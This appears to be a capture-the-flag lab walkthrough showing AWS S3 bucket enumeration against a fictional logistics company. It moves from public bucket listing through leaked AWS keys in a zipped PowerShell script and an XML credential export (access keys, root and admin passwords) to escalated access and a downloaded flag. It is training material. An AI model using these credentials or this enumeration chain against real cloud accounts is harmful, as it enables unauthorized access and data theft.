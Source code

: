 ## AWS S3 Enumeration Basics 

  

As an Initial entry we have been provided with the following details 

  

| Website | URL |
| --- | --- |
| Huge Logistics Development | [http://dev.huge-logistics.com](http://dev.huge-logistics.com) |

  

## Approach for the solution 

  

Following application looks like some kind of logistics application where we can calculate the payments and also we can track about the shipping as well 

  

![](../../assets/images/s3enum-1.png) 

  

I was thinking like how these images being embedded and Found that these images are fetched from a s3 bucket called [`dev.huge-logistics.com`](https://dev.huge-logistics.com "https://dev.huge-logistics.com") by looking into the source code 

  

![](../../assets/images/s3enum-2.png)  

  

Viewing the s3 bucket directly on the browser and results in access denied which means we don’t access to `GetObject` which means getting an object through a `GET` request

  

![](../../assets/images/s3enum-3.png)  

  

The other way of enumeration, we can do his trying out from CLI from our own account.. By configuring the Access key and secret key. Later through `aws s3`  we can further look into the enumeration process

  

![](../../assets/images/s3enum-4.png)  

  

Now through CLI, we can use the following command `aws s3 ls s3://dev.huge-logistics.com --profile mycreds` we were able list out the files inside the s3 bucket 

  

![](../../assets/images/s3enum-5.png)  

  

In the `shared/`  directory, we have a zip file called `hl_migration_project.zip` and let’s unzip the file, look for any interesting thing..

  

![](../../assets/images/s3enum-6.png)  

  

Unzipping the zip file we found that there is a powershell script called migrate\_secrets.ps1 and found that aws credentials being disclosed 

  

![](../../assets/images/s3enum-7.png)   

  

Let’s configure the aws credentials with a new profile called `s3enum`  and we have found that the user named as `pam-user`  

  

```sh
nits@FWS-CHE-LT-8869 pwnedlabs.io % aws configure --profile s3enum
AWS Access Key ID [None]: AKIA3SFMDAPOWOWKXEHU
AWS Secret Access Key [None]: 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
Default region name [None]: us-east-1
Default output format [None]: 
nits@FWS-CHE-LT-8869 pwnedlabs.io % aws sts get-caller-identity --profile s3enum
{
    "UserId": "AIDA3SFMDAPOYPM3X2TB7",
    "Account": "794929857501",
    "Arn": "arn:aws:iam::794929857501:user/pam-test"
}
```

  

  

With the same s3 bucket [`dev.huge-logistics.com`](s3://dev.huge-logistics.com) previously we can’t able to access the `/admin`  directory but now we can able to access and list out the files but can’t able download 

  

```sh
nits@FWS-CHE-LT-8869 pwnedlabs.io % aws s3 sync  s3://dev.huge-logistics.com/admin/ --profile s3enum ./ --no-sign-request
fatal error: An error occurred (AccessDenied) when calling the ListObjectsV2 operation: Access Denied
nits@FWS-CHE-LT-8869 pwnedlabs.io % 
```

  

Inside `migration-files`  we found a file called `test-export.xml`  exposes another aws credentials 

  

```xml 
<?xml version="1.0" encoding="UTF-8"?>
<CredentialsExport>
    <!-- Oracle Database Credentials -->
    <CredentialEntry>
        <ServiceType>Oracle Database</ServiceType>
        <Hostname>oracle-db-server02.prod.hl-internal.com</Hostname>
        <Username>admin</Username>
        <Password>Password123!</Password>
        <Notes>Primary Oracle database for the financial application. Ensure strong password policy.</Notes>
    </CredentialEntry>
    <!-- HP Server Credentials -->
    <CredentialEntry>
        <ServiceType>HP Server Cluster</ServiceType>
        <Hostname>hp-cluster1.prod.hl-internal.com</Hostname>
        <Username>root</Username>
        <Password>RootPassword456!</Password>
        <Notes>HP server cluster for batch jobs. Periodically rotate this password.</Notes>
    </CredentialEntry>
    <!-- AWS Production Credentials -->
    <CredentialEntry>
        <ServiceType>AWS IT Admin</ServiceType>
        <AccountID>794929857501</AccountID>
        <AccessKeyID>AKIA3SFMDAPOQRFWFGCD</AccessKeyID>
        <SecretAccessKey>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</SecretAccessKey>
        <Notes>AWS credentials for production workloads. Do not share these keys outside of the organization.</Notes>
    </CredentialEntry>
    <!-- Iron Mountain Backup Portal -->
    <CredentialEntry>
        <ServiceType>Iron Mountain Backup</ServiceType>
        <URL>https://backupportal.ironmountain.com</URL>
        <Username>hladmin</Username>
        <Password>HLPassword789!</Password>
        <Notes>Account used to schedule tape collections and deliveries. Schedule regular password rotations.</Notes>
    </CredentialEntry>
    <!-- Office 365 Admin Account -->
    <CredentialEntry>
        <ServiceType>Office 365</ServiceType>
        <URL>https://admin.microsoft.com</URL>
        <Username>admin@company.onmicrosoft.com</Username>
        <Password>O365Password321!</Password>
        <Notes>Office 365 global admin account. Use for essential administrative tasks only and enable MFA.</Notes>
    </CredentialEntry>
    <!-- Jira Admin Account -->
    <CredentialEntry>
        <ServiceType>Jira</ServiceType>
        <URL>https://hugelogistics.atlassian.net</URL>
        <Username>jira_admin</Username>
        <Password>JiraPassword654!</Password>
        <Notes>Jira administrative account. Restrict access and consider using API tokens where possible.</Notes>
    </CredentialEntry>
</CredentialsExport>
```

  

Now we can configure again with a new profile called `s3enum-2`  and confirming that the user belongs to `it-admin` 

  

```sh
nits@FWS-CHE-LT-8869 pwnedlabs.io % aws sts get-caller-identity --profile s3enum-2
{
    "UserId": "AIDA3SFMDAPOWKM6ICH4K",
    "Account": "794929857501",
    "Arn": "arn:aws:iam::794929857501:user/it-admin"
}
```

  

Confirming that we can able to get the `flag.txt`  from `/admin`  directory 

  

```sh
nits@FWS-CHE-LT-8869 pwnedlabs.io % aws s3 ls s3://dev.huge-logistics.com/admin/ --profile s3enum-2            
2023-10-16 20:38:38          0 
2023-10-16 20:40:51         32 flag.txt
2023-10-17 01:54:07       2425 website_transactions_export.csv
nits@FWS-CHE-LT-8869 pwnedlabs.io % aws s3 cp s3://dev.huge-logistics.com/admin/flag.txt ./  --profile s3enum-2
download: s3://dev.huge-logistics.com/admin/flag.txt to ./flag.txt
nits@FWS-CHE-LT-8869 pwnedlabs.io % cat flag.txt 
a49f18145568e4d001414ef1415086b8%
```